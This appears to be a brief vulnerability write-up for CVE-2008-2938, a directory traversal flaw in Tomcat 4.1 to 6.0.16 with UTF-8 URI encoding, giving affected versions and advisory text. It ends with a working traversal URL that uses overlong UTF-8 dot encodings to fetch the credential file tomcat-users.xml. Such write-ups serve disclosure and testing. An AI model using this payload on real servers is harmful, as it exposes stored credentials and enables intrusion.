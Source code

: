 ## Vulnerable

> Versions Affected: (with java below 1.5.17)
> Tomcat 4.1.0 to 4.1.37
> Tomcat 5.5.0 to 5.5.26
> Tomcat 6.0.0 to 6.0.16

> Further investigation of CVE-2008-2938 has shown that the vulnerability also exists only with URIEncoding="UTF-8" set on the connector. In these configurations arbitrary files in the docBase for an application, including files such as web.xml, may be disclosed. Users should also be aware that this vulnerability will apply when processing requests with UTF-8 body encoding and useBodyEncodingForURI="true"



```sh
http://localhost:8080/%c0%ae%c0%ae/%c0%ae%c0%ae/conf/tomcat-users.xml
```